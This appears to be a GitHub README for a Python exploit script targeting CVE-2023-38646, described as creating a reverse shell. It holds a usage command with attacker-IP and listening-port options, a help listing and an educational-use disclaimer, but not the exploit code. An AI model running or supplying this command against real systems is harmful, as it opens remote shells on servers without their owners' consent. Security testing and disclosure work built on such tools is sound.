

# CVE-2023-38646

This is a script that creates a reverse shell targeting CVE-2023-38646 (CVSS 9.8).

# How to use:
`python3 CVE-2023-38646.py --lhost {KALI IP} --lport {KALI LISTENING PORT} --url http://{DOMAIN_OF_LOGIN_PAGE-NOT_PATH!}`

options:
  -h, --help     show this help message and exit
  --url URL      URL of the login page
  --lhost LHOST  Your attacker machine IP
  --lport LPORT  Your attacker machine listening port

Example:

# Disclaimer
* This script is provided for educational and awareness purposes only. It is intended to demonstrate a security vulnerability and should only be used in environments where you have explicit authorization to test for and mitigate such vulnerabilities. Unauthorised use of this script on systems without proper authorization may be illegal and could result in legal consequences. 
The author of this script are not responsible for any misuse or damage caused by the execution of this code. Use at your own risk.
By using this script, you agree that you have read and understood this disclaimer and assume full responsibility for any actions taken.
